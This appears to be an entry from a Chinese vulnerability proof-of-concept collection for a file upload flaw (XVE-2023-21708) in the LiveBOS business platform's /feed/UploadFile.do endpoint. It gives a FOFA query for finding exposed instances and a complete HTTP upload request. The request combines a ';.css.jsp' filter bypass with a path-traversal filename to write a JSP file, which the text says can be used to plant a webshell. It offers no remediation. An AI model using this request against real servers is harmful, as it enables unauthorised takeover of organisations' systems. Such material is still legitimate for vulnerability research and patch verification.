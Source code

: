 # 灵动业务架构平台(LiveBOS)系统UploadFile.do接口文件上传漏洞(XVE-2023-21708)

LiveBOS灵动业务架构平台（简称LiveBOS）是顶点软件股份有限公司开发的一个对象型业务架构中间件及其集成开发工具。 LiveBOS /feed/UploadFile.do接口存在文件上传漏洞，攻击者可利用该漏洞上传Webshell，获取服务器权限。

## fofa

```yaml
app="LiveBOS-框架"
```

## poc

```yaml
POST /feed/UploadFile.do;.css.jsp HTTP/1.1
Host:
Httpsendrequestex: true
User-Agent: PostmanRuntime/7.29.0
Accept: */*
Postman-Token: 049266bd-e740-40bf-845f-bc511296894e
Accept-Encoding: gzip, deflate
Cookie: zhzbsessionname=35FF312409BF3CAC561D5BC776643A05
Content-Type: multipart/form-data;boundary=--------------------------688644671867822357584225
Content-Length: 222

----------------------------688644671867822357584225
Content-Disposition: form-data; name="NewFile"; filename="/../../../11.jsp"
Content-Type: text/plain

test
----------------------------688644671867822357584225—-
```

